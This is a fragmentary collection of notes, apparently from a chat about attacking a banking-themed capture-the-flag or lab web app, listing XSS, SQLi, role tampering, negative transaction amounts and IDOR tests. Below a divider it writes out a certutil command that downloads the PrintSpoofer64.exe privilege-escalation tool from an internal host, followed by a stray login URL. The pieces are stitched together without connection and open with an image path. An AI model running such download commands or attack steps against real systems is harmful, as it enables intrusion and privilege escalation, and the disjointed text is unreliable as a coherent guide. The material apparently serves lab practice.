 Como el número de cuenta, el número de tarjeta, el número de transacción, el número de bóveda, el número de préstamo, etc.

Pruebe XSS, SQLi, cambie el rol, cambie el importe de la transacción a -ve o 0.5, suba archivos a la bóveda y algunas cosas más. Luego, cree otra cuenta de usuario e intente acceder a todos los datos de las otras cuentas, como los errores de IDOR. Esto debería generar al menos dos o tres indicadores.

John Doe, [15/8/2025 4:24]
Durante la actualización del rol, asegúrese de realizar una solicitud PUT en lugar de POST o GET.









root@kali :~#, [15/8/2025 9:26]
i tried to create multiple account , send repeater multiple request (group)

root@kali :~#, [15/8/2025 9:26]
IT WORKED







-------------------------------------------------------------------------


mkdir C:\Tools



certutil -urlcache -f http://10.250.1.6:8000/PrintSpoofer64.exe C:\Windows\Temp\PrintSpoofer64.exe








login1.php?msg=1